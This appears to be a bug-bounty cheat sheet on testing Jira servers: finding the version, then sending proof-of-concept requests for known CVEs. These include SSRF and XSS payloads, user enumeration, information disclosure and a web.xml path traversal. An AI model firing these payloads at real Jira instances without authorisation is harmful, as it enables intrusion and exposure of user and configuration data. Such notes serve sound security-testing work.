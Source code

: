 # Jira Common Bugs

## Introduction
What would you do if you came across a website that uses Jira?

## How to Detect
Try to HTTP request to `https://example.com/secure/Dashboard.jspa` or `https://example.com/login.jsp` and there is a form login

1. Find the related CVE by checking jira version
* How to find the jira version

Try to request to `https://example.com/secure/Dashboard.jspa` and then check the source code. You will find this line `<meta name="ajs-version-number" content="8.20.9">` so 8.20.9 is the jira version. If you found outdated jira version, find the CVEs at [CVEDetails](https://www.cvedetails.com/vulnerability-list/vendor_id-3578/product_id-8170/Atlassian-Jira.html)

Some example CVE:

- CVE-2017-9506 (SSRF)
```
https://example.com/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
- CVE-2018-20824 (XSS)
```
https://example.com/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
- CVE-2019-8451 (SSRF)
```
https://example.com/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
- CVE-2019-8449 (User Information Disclosure)
```
https://example.com/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
- CVE-2019-8442 (Sensitive Information Disclosure)
```
https://example.com/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
- CVE-2019-3403 (User Enumeration)
```
https://example.com/rest/api/2/user/picker?query=<USERNAME_HERE>
```
- CVE-2020-14181 (User Enumeration)
```
https://example.com/secure/ViewUserHover.jspa?username=<USERNAME>
```
- CVE-2020-14178 (Project Key Enumeration)
```
https://example.com/browse.<PROJECT_KEY>
```
- CVE-2020-14179 (Information Disclosure)
```
https://example.com/secure/QueryComponent!Default.jspa
```
- CVE-2019-11581 (Template Injection)
```
example.com/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

- CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
- CVE-2019-3402 (XSS)
```
https://example.com/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

2. Signup enabled
```
POST /servicedesk/customer/user/signup HTTP/1.1
Host: example.com
Content-Type: application/json

{"email":"test@gmail.com","signUpContext":{},"secondaryEmail":"","usingNewUi":true}
```

## Reference
* [@harshbothra](https://twitter.com/harshbothra)